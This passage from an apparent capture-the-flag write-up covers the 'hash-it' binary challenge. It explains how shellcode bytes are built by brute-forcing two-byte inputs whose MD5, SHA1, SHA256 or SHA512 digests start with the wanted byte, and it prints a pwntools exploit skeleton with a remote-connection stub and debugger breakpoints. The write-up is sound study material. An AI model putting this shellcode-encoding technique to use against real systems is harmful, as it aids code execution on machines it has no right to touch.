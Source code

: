 - MD5(b'AA') == `3b`98e2dffc6cb06a89dcb0d5c60a0206
- SHA1(b'AA') == `80`1c34269f74ed383fc97de33604b8a905adb635
- SHA256(b'AA') == `58`bb119c35513a451d24dc20ef0e9031ec85b35bfc919d263e7e5d9868909cb5
- SHA512(b'AA') == `28`2154720abd4fa76ad7cd5f8806aa8a19aefb6d10042b0d57a311b86087de4de3186a92019d6ee51035106ee088dc6007beb7be46994d1463999968fbe9760e

All is left for us, to implement a simple function, which transforms our desired shellcode into such form, that when the correspoinding hashing algorithm is used, we get the shellcode bytes we want to have. We've implemented this functionality in python as well, and our final exploit is as follows:

```python
#!/usr/bin/env python3
from pwn import *
from Crypto.Hash import MD5, SHA1, SHA256, SHA512

# Set up pwntools for the correct architecture
context.update(arch='amd64', terminal=["tmux", "splitw", "-h"])
exe = './hashit'

def generate_shellcode(shellcode):
    counter = 0
    ret = b''
    pr = log.progress('Generating shellcode')

    # setting up different constructors for hashtypes
    algo = [MD5.new, SHA1.new, SHA256.new, SHA512.new]

    for byte in shellcode:
        pr.status(f'{counter * 100/ len(shellcode)}%')
        # check every possible 2-byte combinations
        for i in range(0xffff + 1):
            data = i.to_bytes(2, 'big')
            # call appropriate constructor
            h = algo[counter % 4]()
            h.update(data)
            if h.digest()[0] == byte:
                ret += data
                break
        counter += 1

    pr.success('Done')
    return ret


def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('hash-it-0-m7tt7b7whagjw.shellweplayaga.me', 31337)
    else:
        return process('./hashit', level='INFO')

#0x555555555100 --> main()
#0x555555555151 --> malloc
#0x555555555131 --> first read 4 bytes

gdbscript = '''
handle SIGALRM ignore
b *0x555555555131
b *0x555555555151
b *0x555555555209
c
'''.format(**locals())

#===========================================================
```